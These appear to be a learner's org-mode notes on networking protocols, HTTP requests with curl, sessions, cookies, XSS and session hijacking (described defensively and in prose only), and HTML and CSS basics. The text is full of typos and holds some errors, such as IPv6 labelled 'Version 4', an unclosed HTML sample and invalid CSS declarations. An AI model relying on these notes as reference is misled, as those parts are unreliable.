      network; there is no guarantee of delivery, ordering, or duplicate
      protection. If error-correction facilitates are needed at the network
      interface level, an application may use Transmission Control Protocol
      (TCP) or Steam Control Transmission Protocol (SCTP) which are designed
      for this purpose.

      UDP is suitable for purposes where error checking and correction are
      either not necessary or are performed in the application; UDP avoid
      the overgead of such processing or are performed in the application;
      UDP avoid the overhead of such processing in the protocol
      stack. Time-sensitive applications often use UDP because dropping
      packets is preferable to waiting for packets delayed due to
      retransmission, which may not be an option in a real-time system.

***** Stream Control Transmission Protocol
      
      The Stream Control Transmission Protocol (SCTP) is a computer
      networking communications protocol which operates at the transport
      layer and serves a role similar to the popular protocols TCP and UDP.
      
      SCTP provdes some of the features of both UDP and TCP: it is
      message-oriented like UDP and ensures reliable, in sequence transport
      of messages with congestion control like TCP. It differs from those
      protocols by providing multi-homing and redundant paths to increase
      resilience and reliability.
      
      In the absence of native SCTP support in operating systems, it is
      possible to tunnel SCTP over UDP, as well as to map TCP API calls to
      SCTP calls so existing applications can use SCTP without
      modification. 

***** Internet Protocol
      
      The Internet Procotol (IP) is the principal communications protocol in
      the Internet Procotol Suite for relaying datagrams across network
      boundaries. Its routing function enables internetwroking, and
      essentially establishes the Internet.
      
      Ip has the task of delivering packets from the source host to the
      destination host solely based on the IP addresses in the packet
      headers. For this purpose, IP defines packet structures that
      encapsulate the data to be delivered. It also defines addressing
      methods that are used to label the datagram with source and destination
      information.
      
      IP was the connectionless datagram service in the original
      Transmission Control Program. Which was complemented with a
      connection-oriented service that became the basis for the Transmission
      Control Protocol (TCP). The internet protocol suite is therefore often
      referred to as TCP/IP.
      
      The first major version of IP, IPv4 is the dominant protocol of the
      internet. Its successor, Internet Procotol Version 4 (IPv6) has been
      growind in adoption, reaching almost 25% of all internet traffic.
      
      The internet protocol suite provides *end-to-end data communication*
      specifying how data should be packetized, addressed, transmitted,
      routed and received. This functionality is organized into four
      abstraction layers, which classify all related protocols according to
      the scope of networking involved. From lowest to highest, the layers
      are the link layer, containing communication methos for data that
      remains within a single network segment (link); the internet layer,
      providing internetet working between independent networks; the transport
      layer, handling host-to-host communication; and the application layer,
      providing process-to-process data exchange for applications.
      
      The technical standars underlying the Internet Protocol Suite and its
      constituent protocols are maintained by the Internet Engineering Task
      Force. The Internet Protocol Suite predates the OSI model, a more
      comprehensive reference framework for general networking systems.
      
      Initially, the TCP managed both datagram transmissions and routing,
      but as the protocol grew, other researchers recommended a division of
      functionality into protocol layers. The Transmission Control Program
      was split into two distict protocols, The Transmission Control
      Protocol and the Internet Procotol.
      
      The design of the network included the recognition that it should
      provide only the functions of efficiently transmitting and routing
      traffic between end nodes an that all other intelligente should be
      located at the edge of the network, in the end nodes. This design is
      known as the end-to-end principle. 
      
      A computer called a router is provided with an interface to each
      network. It forwards network packets back and forth between
      them. Originally a router was called gateway, but the term was changed
      to avoid confusion with other types of gateways.

****** Key architectural princniples

       The end-to-end principle has evolver over time. Its original
       expression ut the maintenance of state and overall intelligence at the
       edges, and assumed the Internet that connected the edges retained no
       state and conectrated on speed and simplicity. Real-world needs for
       firewalls, network address translators, web content caches and the
       like have forced changes in this principle. 
       
       The robustness principle states: "In general, and implementation must
       be conservative in its sending behavior, and liberal in its receiving
       behavior. That is, it must be careful to send well-formed datagrams,
       but must accept any datagram that it can interpret (e.g., not object
       to technical errors where the meaning is still clear)." "The second
       part of the principle is almost as important: software on other hosts
       may contain deficiencies that make it unwise to exploit legal but
       obscure protocol features."
       
       Encapsulation is used to provice abstraction of protocols and
       services. Encapsulation is usually aligned with the division of the
       protocol suite into layers of general functionality. In general, and
       pplications (the highest level of the model) uses a set of protocols
       to send its data down to layers. The data is further encapsulated at
       each level.
       
       - The application layer is the scope within which applications, or
	 processes, create user data and communicate this data to other
	 applications on another or the same host. The applications make use
	 of the services provided by the underlying lower layers, especially
	 the transport layer which provides reliable or unreliable pipes to
	 other processes. The communication partners are characterized by the
	 application architecture, such as the client-server model and
	 peer-to-peer networking. This is the layer in which all applications
	 protocols, such as SMTP, FTP, SSH, HTTP, operate. Processes are
	 addressed via ports which essentially represent services.

       - The transport layer performs host-to-host communications on either the
	 local network or reomte networks separated by routers. It provides a
	 channel for the communications needs of applications. UDP is the basic
	 transport layer protocol, providing an unrealiable connectionless
	 datagram service. The Transmission Control Protocol provices
	 flow-control, connection establishment, and reliable transmission of
	 data.

       - The Internet Layer exchanges datagrams across netowkr boundaries. It
	 provides a uniform networking interfaces that hides the actual
	 topology (layout) of the underlying network connections. It is
	 therefore also the layer that establishes internetworking. Indeed,
	 it defines and establishes the Internet. This layer defines the
	 addressing and routing structures used for the TCP/IP protocol
	 suite. The primary protocol in this crope is the Internet Procotol,
	 which defines IP addresses. Its fuction in routing is to transport
	 datagrams to the next host, functioning as an IP router, that has
	 the connectivity to network closer to the final data destination.

       - The link Layer defines the networking methods within the scope of
	 the local network link hich hosts communicate without intervening
	 routiers. This layer includes the protocols used to describe the
	 local network topology and the interfaces needed to affect
	 transmission of Internet layer datagrams to next-neighbor hosts.

****** Link Layer
       
       The link layer has the networking scope of the local network
       connection to which a host is attached. This regime is called the link
       in TCP/IP literature. It is the lowest component layer of the Internet
       Protocols, as TCP/IP is designed to be hardware independent. As a
       result, TCP/IP may be implemented on top of virtually any hardware
       networking netchnology.
       
       The link layer is used to move packets between the Internet layer
       interfaces of two different hosts on the same link. The processes of
       transmitting and receiving packets on a given link can be controlled
       both in the software device driver for the network card, as well as on
       firmware or specialized chipsets. These perform data link dfunctions
       such as adding a packet header to prepare it for transmission, then
       actually transmit the frane over a physical medium. The TCP/IP model
       includes specifications of translating the network addressing methods
       used in the Internet Protocol to link layer addresses, such as media
       access control (MAC) addressess. All other aspects below that level,
       however, are implicitly assumed to exist in the link layer, but are
       not explicitly defined in the TCP/IP model.
       
       The link layer is also the layer where packets may be selected to be
       sent over a virtual private network or over other
       networkingtunnels. In this scenario, the link layer data may be
       considered application data which traverses another instantiation of
       the IP stack for transmission or reception over another IP
       connection. Such a connection, or virtual link, may be established
       with a transport protocol or even an application scope protocol that
       serves as a tunnel in the link layer of the protocol stack. This, the
       TCP/IP model does not dictate a strict hierarchical encapsulation
       sequence.
       
       The link layer in the TCP/Ip model has corresponding functions in
       Layer 2 o the Open Systems Interconnection (OSI) model.
       
****** Internet Layer
       
       The internet layer has the responsibility of sending packets across
       potentially multiple networks. Internetworking requires sending data
       from the source network to the destination network. This process is
       called routing.
       
       The Internet Protocol performs two basic functions: 
       
       - Host addressing and identification :: this is accomplished with a
	    hierarchical IP addressing system.
       - Packet routing :: This is the basic task of sending packets of data
			   (datagrams) from source to destination by
			   forwarding them to the next network router closer
			   to the final destination.




** ODIN                                                               :check:


   TCP/IP is a protocol that allows data to travel safely from source
   to destination.

   Domain Name Servers are like an address book for websites.

   Hypertext Transfer Protocol (HTTP) is an application protocol that
   defines a language for clients and servers.

   Component files are different files that a website is made of. they
   come in Code files, built primarily from HTML, CSS and JavaScript or
   Assets, all other stuff such as images, music, videos, word
   documents or PDFs.

   If websites were sent as single big chunks, only one user could
   download one at a time, that's why every data has to be sent as
   small chunks, packets.

   A protocol is stateless when it's designed in such a way that each
   request/response pair is completely independent of te previous
   one. Stateful being the oposite, it treats a simple request/response
   requests as a part of a large communication process.

   HTTP being a stateless protocols has a good impact on server
   resources and ease of use. It means that the server does not need to
   hang on to information, or state, between requests. So when a
   request breaks en route to the server, no part of the system has to
   do any cleanup. This makes HTTP a resilient protocol, as well as a
   difficult protocol for building stateful applications.

   A simple URL with a query string looks like:

   http://www.example.com?search=ruby&results=10

   the http can be replaced by other protocols such as ftp, mailto or
   git.

   A port can follow the host, before .com for example, we can add
   ':88' if we don't want to use the default port, but the 88 port.
  
   The path, what file do you want '/example.html'

   We can also use query strings, such as ?item=book, this is used to
   send data to the server.

   | Query String Component | Description                                                              |
   |------------------------+--------------------------------------------------------------------------|
   | ?                      | Reserved character, marks the start of the query string                  |
   | search=ruby            | Parameter name/value pair.                                               |
   | &                      | Reserver character, used when adding more parameters to the query string |
   | results=10             | name/value pair parameter                                              |
  
   For example, the following URL:

   http://www.phoneshop.com?product=iphone&size=32gb&color=white
  
   This is asking the host to narrow down on a product iphone size 32gb
   and color white. How the server uses these parameters is up to the
   server side application.

   Performing a search in any modern search engine, passes query
   strings through the URL, they are only used in HTTP GET requests.

   Any URL typed on the address bar of your browser is a HTTP GET
   request. Except by some minor exceptions.

   Query Strings are great to pass in additional information to the
   server, however, there are some limits to the use of query strings:

   - They have maximum lenght. If you have lots of data to pass on,
     you'll not be able to do it with query strings.

   - The name/value pairs used in query strings are visible in the
     URL. Though, passing sensitive information in this manner is not
     recommended.

   - Space and special characters like & canot be sed with query
     strings. They must be URL encoded.

*** URL Encoding

    By default, URLs are designed to accep only cerain characters in
    the ASCII character set. Characters not in this set as well as
    reserved or unsafe characters are not used, so they have to be
    encoded.

    URL encoding replaces these non-conforming characters with a %
    symbol followed by two hexadecimal digits that represent the ASCII
    code of the character.

    | Character | ASCII code | URL                                             |
    |-----------+------------+-------------------------------------------------|
    | Space     |         20 | http://www.shop.com/shops/tommy%20hilfiger.html |
    | !         |         21 | http://www.shop.com/moredesigns%21.html         |
    | +         |         2B | http://www.shop.com/shops/spencer%2B.html       |
    | #         |         23 | http://www.shop.com/%23somequotes%23.html       |
   
    Characters must be encoded if:

    - Tey have no corresponding character within the ASCII character
      set.

    - The use of the character is unsafe because it may be
      misinterpreted, or even possibly modified by some systems. % is
      unsafe because it can be used for encoding other
      characters. Other unsafe characters are <, >, [, ]. {, }, ~, #.

    - The character is reserved for special use within the URL
      scheme. They have special meaning so their presence in a URL
      server a specific purpose, such as /, ?, :, @ and & are
      reserved. & is reserver for use as a query string delimited. : Is
      reserve to delimit host/port components and user/password.

    Paw 3 is a GUI HTTP tool, alternatives are Insomnia and Postman,
    available for free.

    Curl is a free command line tool that is used to issue

*** Making HTTP Requests

    Making an HTTP request is easiest as enter a page as reddit or
    google.

    The server hosting these sites handles your request and issues a
    response back to your browser. Your browser process this response
    and displays the site.

    Browsers shows us the processed version of the response, in order
    to see a raw response, we should use an HTTP tool.

    In order to become a web developer, you'll need to learn to read
    and process raw HTTP response data just by scanning it. We can dig
    into raw data and do some debugging and see exactly what's in the
    response.

    Some sites need you to add an User-Agent to our HTTP
    request. Otherwise, it will deny our request, assuming the request
    originates from a bot. We can append the following to any curl
    commands.
   
    -A 'User-Agent: Mozilla/5.0 (Macintosh: Intel Mac OS X 10_9_5)
    AppleWebKit/537.36 (KHTML, like Gecko) Chrome/38.0.2125.101
    Safari/537.36'

    The -A option specify a User-Agent for an HTTP request when using
    curl.

    $ curl -X GET "https://www.reddit.com/" -m 30 v

    We'll see one request and one response containing the HTML, but no
    additional requests being automatically issued.

*** Request Methods

    The method used, the HTTP Request Method tells the server what
    action to perform on a resource. The most common HTTP request
    methods are GET and POST.

    Retrieving information, think GET, the most used request
    method. Note that every request gets a response, even if the
    response is an error.

*** GET Requests

    Initiated by a tool or a browser connecting to a server. it ask the
    web browser to go retrieve the resource at that address. In curl it
    will be:

    $ curl -X GET "https://www.reddit.com/" -m 30 -v

*** POST Requests

    In order to submit data to the server, we'll have to use POST. Used
    when you want to initiate some action on the server, or send data
    to a server. In curl:

    $ curl -X POST "https://google.com" -m 30 -v

    Tipically within a browser, you use POST when submitting a form,
    POST requests allows us to send much larger and sensitive data to
    the server. For example, sending username and password through GET
    means that we'll have to use the URL which is insecure.

    Using POST request in a form fixes this problem. POST requests help
    the query string size limitation that you have with GET
    requests. With POST requests, we can send significantly larget
    forms of information to the server.

    $ curl -X POST "http://www.google.com" -d "player_name=Migl" -m 30
    -v

    How is the data we're sending being submitted to the server since
    it's not being sent through the URL? The answer is the HTTP
    body. It contains the data that is being transmitted in an HTTP
    message and is optional. Int other words, an HTTP message can be
    sent with an empty body. When used, the body can contain HTML,
    images, audio and so on. Body is a letter enclosed in an envelope,
    to be posted.

    The POST request generated by the HTTP tool or curl is the same as
    you filling out the form in the browser, submitting that form, and
    then being redirected to the next page. The key piece of
    information that redirects us dto the next page is specified in the
    field 'Location: http://page.com/page. Location and its associated
    data is part of what is known as an HTTP response header. Your
    browser sees the response header and automatically issues a brand
    new request to the URL specified in the location header, thereby
    initiating a new, unrelated request.

*** HTTP Headers

    HTTP headers allow the client and the server to send additional
    information during during the request/response HTTP cycle. Headers
    are colon-separated name-value pairs that are sent in plain text. 

*** Request Headers

    Request Headers give more information about the client and the
    resource to be fetched. Some useful request headers are:

    | Field Name      | Description                                | Example                          |
    |-----------------+--------------------------------------------+----------------------------------|
    | Host            | The domain name of the server              | Host: www.google.com             |
    | Accept-Language | List of acceptable languages               | Aceept-Language: en-US, en;q=0.8 |
    | User-Agent      | A string that identifies the client        | User-Agent:Mozilla/5.0...        |
    | Connection      | Type of connection the client would prefer | Connection: keep-alive           |
   
    Request headers are a part of the request being sent to the server.

*** Status Code

    The HTTP status code is a three digit number that the server sends
    back after receiving a request signifying the status of the
    request. The status text displayed next to status code provides the
    description of the code. Listed in the Status column.

    The most common response status code is 200, which means the
    request was handled succesfully.

    | Status Code | Status Text           | Meaning                                                                                       |
    |-------------+-----------------------+-----------------------------------------------------------------------------------------------|
    |         200 | OK                    | The request was handled successfully.                                                         |
    |         302 | Found                 | The requested resource has changed temporarily. Usually returns in a redirect to another URL. |
    |         404 | Not Found             | The requested resource cannot be found.                                                       |
    |         500 | Interval Server Error | The server has encountered a generic error.                                                   |
   
*** 302 Found

    When a resource is moved, the most common strategy is to re-route
    the request from the original URL to a new URL. This is called a
    redirect.
   
    When your browser sees a response status code of 302, it knows that
    the resource has been moved, and will automatically follow the new
    re-routed URL in the Location response header.

    For example, we want to access our account profile at
    github on the address https://github.com/settings/profile. However,
    in order to have access to the profile page, you must first be
    signed in. If not, the browser will send you to a page to do that,
    that page is on the Location header. After entering your
    credentials, you'll be redirected to the original page you were
    trying to access. 

    Compared this situation with an HTTP tool, which doesn't
    automatically follow the redirect.

    In the raw HTTP request, Location will have a returning page to
    redirect you after getting your credentials.
   
*** 404 Not Found
   
    Requested resource cannot be found. A resource can be anything,
    including audio files, CSS stylesheets, JavaScript files, images,
    etc.

*** 500 Internal Server Error

    This says 'there's something wrong on the server side'. It is a
    generic error status code and the core problem can range from a
    mis-configured server setting to a misplaced comma in the
    application code. Wathever the problem, it's a server side issue.

*** Response Headers

    Responde headers offer more information about the resource being
    sent back. 
   
    | Header Name      | Description                              | Example                               |
    |------------------+------------------------------------------+---------------------------------------|
    | Content-Encoding | The type of encoding used on the data    | Content-Encoding: gzip                |
    | Server           | Name of the server                       | Server:thin 1.5.0 codename Knife      |
    | Location         | Notify client of a new resource location | Location: Redirectedpage.com          |
    | Content-Type     | Type of data that the response contains  | Content-Type:text/html; charset=UTF-8 |

    Response headers contain additional meta-information about the
    response data being returned.

    As stated before, HTTP protocol is stateless, it doesn't hang on to
    information between each request/response cycle.

    Each request made to a resource is treated as a brand new entity,
    and different request aren't grouped together, or aware of each
    other. This Behavior allows us to build stateful web applications.

    A web app can maintain its state, that's why we don't have to log
    in all the time we update facebook page or others,  the server
    response contains HTML that still shows our username.

    There are some methods used on the client to make displaying
    dynamic content easy, some of them are:

    - Sessions
    - Cookies
    - Asynchronous JavaScript calls, or AJAX

*** Sessions

    A stateless HTTP protocol is being augmented to maintain a sense of
    statefulness. With some help from the client, HTTP can be made to
    act as if it were maintaining a stateful connection with the
    server, even though it's not. One way to accomplish this is by
    having the server send some form of a unique token to the client.
   
    Whenever a client makes a request to that server, the client
    appends this token as part of the request, allowing the server to
    identify clients. We call this unique token that gets passed back
    and forth the session identifier.

    This creates a sense of persistent connection between requests,
    however it's still stateless and unaware of the previous or the
    next request.

    This approach has some consequences, every request must be
    inspected to see if it contains a session identifier, and if it
    does, the server mush check to ensure that this session id is still
    valid. The server needs to maintain some rules with regards to how
    to handle session expiration and also decide how to store its
    session data. The server also needs to retrieve the session data
    based on the session id. And recreate the application state from
    the session data and send it back to the client as the response.

    This is adding more work to the server.

*** Cookies

    A cooie is a picec of data that's sent from the server and stored
    in the client during a request/response cycle. Cookies or HTTP
    cookies are small files stored in the browser and contain the
    session information. The client side cookie is compared with the
    server-side session data on each request to identify the current
    session. This way, when you visit the same website again, your
    session will be recognized because of the stored cookie with its
    associated information.

    When first entering a cookie enabled website, the website will give
    you, the client, a cookie. You'll save that cookie.

    When entering the website again, you'll have a cookie, you'll
    present this cookie with your GET request, and the website will
    identify your client.

    In the server side, this session data is stored on memory, other
    times, it could be stored in persistent storage, like a database or
    key/value store. 

    Cookies are the most used for making web applications work around
    the statelessness of HTTP.

*** AJAX

    Asynchronous JavaScript and XML allows browsers to issue requests
    and process responses without a full page refresh. It's expensive
    for a server to generate every photo and status present it in a
    timeline for you, and generate that for every request.

    When AJAX is used, all request sent from the client are performed
    asynchronously, which means that the page doesn't refresh.

    Google is a good example, opening the network tab on your browser,
    and starting to search something, you'll see that several requests
    are created along the way.

    Every letter you type is issuing a new request, AHAX request is
    triggered with every key-press. The responses from these requests
    are being processes by some callback. Callback being a piece of
    logic you pass on to some function to be executed afgter a certain
    event has happened. The callback is triggered when the response is
    returned. The callback processing these asynchronous requests and
    responses is updating the HTML with new search results. 

    AJAX request are just like normal ones, they are sent to the server
    with al the normal components of an HTTP request, and the server
    handles them like any other requuest. The difference betwen browser
    refresing and processing the response is that the response is
    processed by a callback function, which is usually somje
    client-side JavaScript code.
   
*** Security HTTP, Secure HTTP (HTTPS)

    As the client and server send request and responses to each other,
    all the information is sent by strings. A malicious hacker attached
    somehow to the same network, they could employ packet sniffing
    techniques to read the messages being sent back and forth. As we
    learned previously, requests can contain the session id, which
    uniquely identifies you to the server, if someone else copied this
    session id, they could craft a request to the server and pose as
    your client, being automatically logged in without even having
    access to your username or password.

    HTTPS helps this by encrypting every request/response being
    transported on the network. If this information is sniffed, it
    would be encrypted and useless.

    HTTPS sends messages using a cryptographic protocol called
    TLS. earlier versions used Secure Sockets Layer (SSL) until TLS was
    developed. The protocol use certificates to communicate with remote
    servers and exchange security keys before data encryption happends.

*** Same-origin policy

    This permits unrestricted interaction between resources only if
    they originate from the same source, but restricts certain
    interactions between resources originating from different sources.

    Same-origin policy doesn't rescrit all cross-origin
    requests. Requests such as linking, redirects or form submissions
    to different origins are typically allowed. Also embedding of
    resources from other origins, such as scripts, css stylesheets,
    images and other media. What is tipically restricted are
    cross-origin requests where resources are being accsses
    programmatically using APIs such as XMLHttpRequest or fetch.

    While securte, it's an issue for web developers who have need for
    making restricted kinds of cross-origin requests. Cross-origin
    resource sharing (CORS) was developed to deal with this issue. It
    allows interactions that would normally be restricted cross-origin
    to take place. It adds new HTTP headers, which allow servers to
    serve resources cross-origin to certain specified origins.

    The same-origin policy is an important guard agains session
    hijacking attacks and serves as a cornerstone of web application
    security.

*** Session Hijacking

    Sessions play an important role in keeping HTTP stateful, they are
    unique tokens used to identify different sessions. This id is
    implemented as a random string and omes in the form of a cookie
    store on the computer. If an attacker gets hold of the session id,
    he could access the web app on the users session without knowing
    the username or password of the client.

    Resetting sessions is a great way to battle Session Hijacking, this
    means a succesful login must render an old session id invalid and
    create a new one.On the next request, the victim will be required
    to authenticate. At this point, the altered session id will change,
    stopping the attacker, this is implemented in some sites that ask
    you to authenticate again for sensitive information or area such as
    charging a creditr card or deleting an account.

    Expiration time on sessions are useful since the hacker won't have
    an infinite amount of time to pose as the real user.

    Using HTTPS helps since the client's ID will be encrypted an
    unusable by an attacker.

*** Cross-Site Scripting (XSS)

    This type of arrack happends when you allow users to input HTML or
    JavaScript that ends up being displayed by the site directly.

    For example, a form that allows comments to be write on, so they
    can then be displayed later on the site.

    This form is just a normal HTML <textarea>, users are free to input
    anything into the form. But what about users adding raw HTML and
    JavaScript into the text area and submit it to the server?

    If the server side code doesn't do any sanitization of input, the
    user input will be injected into the page contents, and the browser
    will interpret the HTML and JavaScript and execute it.

    Attackers can craft ingeniously malicious HTML and JavaScript and
    be very destructive to both the server and future client s of the
    page.

    An attacker can use JavaScript to grab the session ID of every
    future visitor of this site and then come back and assume their
    identify. Malicious code would bypass the same-origin policy
    because the code lives on the site.

    By making sure to sanitize user input, you can eliminate
    problematic input such as <script> tags, or disallowing HTML and
    JavaScript input altogether in favor of a safer format, like
    Markdown, this prevents XSS.

    You can also escape all user input data when displaying it. If you
    do need to allow users to input HTML and JavaScript, then when you
    print it out, make sure to escape it so that the browser does not
    interpret it as code.

    To escape a character means to replace an HTML character with a
    combination of ASCII characters.

*** The Front End

    Get familiar with major client-side (browser-based) languages like
    HTML, CSS and JavaScript.

    When entering a page through a browser, your browser will receive
    an HTML file, which probably will tell the browser to request an
    CSS file an a JavaScript file as well, or more languages such as
    PHP.

    Each of these languages performs a separate but very important
    function, they determine how the web page is STRUCTURED(HTML), how
    it LOOKS(CSS) and how it FUNCTIONS(JavaScript). your browser
    handles figuring out how to make these files into a functioning web
    page, the server only provides the files.

    Front-end web development is not design, it does apply the work of
    designers to the web page by translating their layouts into real
    code. The front-end developer stands between the designer on one
    end and the back-end developer on the other, translating the design
    into code and plugging the data from the back-end developer. He
    must also handle all the possible interactions that the user may
    need to make with the page.

    You're building their gateway to your page or product. This may
    mean gaining a string understanding of accesibility and responsivbe
    delopment down the line.

    Front-end web development is a mix of programming and layout that
    powers the visuals and interactions of the web.

    Fron-end design visuals and functions that will interact with the
    client, the back-end wb developer will develop things that won't
    interact with the client, but are very important.

** HTML

   HyperText markup Language is a document format used for defining
   the semantic structure of a single web page. HTML will always
   contain:

   #+BEGIN_SRC html

     <html>
       <head>
	 <title>Example Page</title>
       </head>

       <body>
	 <h1>Contents of the page</h1>
       </body>
     <html>  

   #+END_SRC
   
   <html> begins HTML code. The HTML document as a whole.
   <head> Contains the header of the document, meta-data and
   information about the document, and some not part of the document
   itself.

   <body> contains data that will be shown on the page. All the page
   content.

   HTML only defines semantic structure of a document, it says nothing
   about the visual representation of. All visual representation as
   font, spacing or size of letters and such are made by CSS.

   HTML being a markup language, it marks up certain parts of the
   content with its structural meaning.

   There are a lot of useful applications, that leverage the
   information that is provided by defining the semantic structure of
   a document, one could apply different "themes", as in styles, to
   the same HTML page depending on people's preferences.

   A website ocnsists of many files and content, we need ot assemble
   these files into a sensible structure on the server, and make sure
   they cna talk to one another.

   Its good to name folders and files only on lowercase with no
   spaces. This is because:

   - Many computers are case-sensitive.
   - Browsers, web servers, and programming languages do not handle
     spaces consistently. If you use spaces in your filename, some
     systems may treat the filename as two filenames. Some servers
     replace spaces with its ASCII code, resulting in all your links
     being broken. It's better to separate words with dashes, rather
     than underscores.

        

   

** Cascading Style Sheets (CSS)

*** Concepts

    Describes the style of an HTML document

    Describe how HTML elements should be displayed on screen, paper, or in other
    media

    CSS can control the layout of multiple web pages all at one

    Used to define styles for your web pages, including the design, layout and
    variations in display for different devides and screen sizes

    HTML is not intended to contain tags for formatting a web page, it was created
    to describe the content of a web page

    CSS rule-set consist of a selector3 and a declaration block:

    #+begin_src css
    h1  {color:blue; font-size:12px;}
    #+end_src
  
    Selector points to the HTML element that you want to style

    A declaration block contains one or more declarations separated by semicolons

    Each declaration includes a CSS property name and value, separated by a colon.

    Declarations always end with a semicolon, and declaration blocks are
    surrounded by curly braces.

    Its comments start with /* and end with */.

    CSS selectors are used to find the HTML elements you want to style, we have:

    - Simple Selectors :: elements based on name, id or class
    - Combinator selectors :: based on a specific relationship between them
    - Pseudo-class selectors :: based on a certain state
    - Attribute selectors :: based on an attribute or attribute value

    To select by element, just call it, for example, for a paragraph element, p.

    To select by id, # is needed at the beginning

    To select by class, a . is needed at the beginning

    p.center means only p elements with class "center"

    Elements can have more tan one class, like <p class="center large">

    Class names can't start with a number

    *, its an universal selector, selects all elements on the page

    We can group elements, like h1, h2, p {}

    To link to an CSS file in HTML, we add:
  
    #+begin_src html

      <link href="style.css" rel="stylesheet" type="text/css"/>

    #+end_src

    If two properties for an element are present, the latter will work. For
    example, if a <style> tag with a property is made after the link to an css
    file, this tag will work, if it is created before linking of a css file, it
    won't.

    Background properties are used to define the background effects for elements.

    By default, the image in background-image will cover the entire element. It
    specifies an image to use as the background of an element.

    background-repeat repeats the background image both horizontically and
    vertically. x for horizontically, y for vertically. Or no-repeat for no
    repetition.

    background-attachment specifies wether the background image should scroll or
    be fixed.

    Using shorthand property we can specify all the background properties in one
    single code.

    Using shothand property the order is:
    - background-color
    - image
    - repeat
    - attachment
    - position

    background-clip specifies the painting area of the background

    border properties allows us to specify style, width and colot of an element's
    border.

    border-style has several types of borders:

    - dotted :: dotted border
    - dashed :: dashed border
    - solid :: solid border
    - double :: double border
    - groove :: 3D grooved border. Effect depends on border-color value
    - ridge :: 3D ridged border. .....................................
    - inset :: 3D inset border. .....................................
    - outset :: 3D outset border. ....................................
    - none :: no border
    - hidden :: hidden border

    border-style can have from one to four values, for every side of the border.

    border-width can be in px, pt, cm, em, etc. Or pre-defined values like thin,
    medium or thick. It can have 4 values for every border.

    We can also use shorthand property on borders

    border-radius for rounded borders.

    The margin propety sets the margin area on all four sides o f an element.

    individual margins with: margin-top, right, bottom and left

    Margin collapse doesn't lets us add two margins, for example, a bottom margin
    of 50px and a top margin of 20 in two elements don't result in 70px, but in
    50px.

    Padding generate space around an element's content, inside of any defined
    borders. Its individual sides are padding-top, right, bottom and left. 

    Padding and element width is done by specifying the element's content area. If
    the element has a specified width, the padding added to that element will be
    added to the total width of the element. For example, in a <div> element of
    width 300px, when added a padding of 25px, the result will be a element with a
    width of 350px, by the 25px of padding in left and right.

  


  
  

  

    #+begin_src css

      body {
          /* For Backgrounds */
          background-color: lightblue;
          background-image: url("/url/to/image.gif");
          background-repeat: repeat-x;
          background-attachment: fixed;
          background-position: right top;
          background: ;
          background-clip: ;
          background-origin: ;
          background-size: ;
          /* For Backgrounds */
          /* Shothand property */
          background: #ffffff url("img_tree.png") no-repeat right top;
          /* Shothand property */
          /* For Borders */
          border-style: dotted;
          border-style: solid;
          border-style: double;
          border-style: dotted dashed solid double;
          border-width: 2px 10px 4px 20px;
          border-color: #ffffff;
          border-top-style: dotted;
          border-right-style: dotted;
          border-bottom-style: dotted;
          border-left-style: dotted;
          border-radius: 5px;
          /* For Borders */
          /* Shothand property */
          border: 5px solid red;
          border-left: 6px solid red;
          background-color: lightgrey;
          /* Shothand property */
          /* Apply to all four sides */
          margin: 1em;
          margin: -3px;
          /* Apply to all four sides */
          /* vertical | horizontal */
          margin: 5% auto;
          /* vertical | horizontal */

          /* top | horizontal | bottom */
          margin: 1em auto 2em; 
          /* top | horizontal | bottom */

          /* top | right | bottom | left */
          margin: 2px 1em 0 auto;
          /* top | right | bottom | left */

          /* Global values */
          margin: inherit;
          margin: initial;
          margin: unset;
          /* Global values */

          margin-bottom: 100px;
          margin-top: 100px;
          margin-right: 150px;
          margin-left: 80px;
          /* Shothand property top, right, bottom, left*/
          margin: 25px 50px 75px 100px;
          /* Shothand property */
          /* Horizontally center the elemtn within its container */

          width: 300px;
          margin: auto;
          border: 1px solid red;

          /* Horizontally center the elemtn within its container */
          /* Inheriting from parent element */

          margin-left: inherit;
          /* Inheriting from parent element */

          color: white;
          text-align: center;
          font-family: verdana;
          font-size: 20px;

          /* Padding, top, right, bottom, left*/

          padding-top: 50px;
          padding: 25px 50px 75px 100px;
          /* Padding */

          /* at work */

          overflow: hidden0;
          text-decoration: none;
          font-size: 18px;
          box-shadow: ;
          margin: ;



          /* at work */



      }
      /* For responsiveness */
      @media screen and (x-width: 500px) {
          .header a {
              float: none;
              display: block;
              text-align: left;
          }
          .header-right {
              float: none;
          }
      }
    #+end_src

    In a box, one can think of margin as the separation of the box from the
    outside world. Padding is the separation between the content and its borders.
    And border is the border of the box

    display specifies the display behavior, of an element.

    While HTML sorts out the page structure, CSS defines how HTML elements are
    displayed.

    CSS allows separation of style of content

    For inline style:

    #+begin_src html
      <p style="color:white; background-color:gray;">
	Example of white text with gray background
      </p>
    #+end_src
  
    Internal css is inside the head section of an HTML page.
  
    #+begin_src html
      <html>
	<head>
          <style>
            p{
            color: white;
            background-color: gray;
            }
          </style>
	</head>
	<body>
          <p>
            Something
          </p>
          <p>
            Another test
          </p>
	</body>
      </html>
    #+end_src
  
    The final appearance of a web page is a result of different styling rules.
    THere are thre main sources of style information that form a cascade, these
    are:

    - The stylesheet created by the author of the page
    - The browser's default styles
    - Styles specified by the user

    On terms of website optimization, it's better to have an external CSS file
    than an inline CSS or an internal line CSS.

    The style definition rule consist of selector, property and value.

    p         { color:           white; }
    Selector       property         value
  
*** font properties
 
**** font-family

     Specifies the font for an element, There are two types of font family names:

     - font family :: specifies font family (Times New Roman or Arial)
     - generic family ::  group of font families with a similar look (Serif or
			 Monospace)

     #+begin_src html


       <html>
	 <head>
           <style>
             p.serif {
             font-family:"Times New Roman", Times, serif ;
             }
             p.sansserif { Helvetica, Arial, sans-serif;}
             p.monospace { "Courier New", Courier, monospace;}
             p.cursive { Florence, cursive;}
             p.fantasy { font-Blippo, fantasy;}
             body{
             font-family: Arial, "Helvetica Neue", Helvetica, sans-serif;
   }
           </style>
	 </head>
       <body>

	 <p class="serif">
           Serif font
	 </p>
	 <p class="sansserif">
           Sans-serif font
	 </p>
	 <p class="monospace">
           monospace font
	 </p>
	 <p class="cursive">
           cursive font
	 </p>
	 <p class="fantasy">
           fantasy font
	 </p>
  
       </body>
       </html>
     #+end_src

     In body, if the browser doesn't support the font Arial, it will try the next
     fonts, Helvetica Neue and then Helvetica. If it doesn't have any of them, it
     will try the generic sans-serif.

**** font-size
   
     One can use keywords as small, medium, large and x-large;.
     font-size: 5px;

**** font-style

     Specifies style of text, italic, for example. Other styles are normal or oblique.

     font-style: italic;

**** font-weight

     Controls boldness or thickness of text. Values such as 5px, normal, bold, One
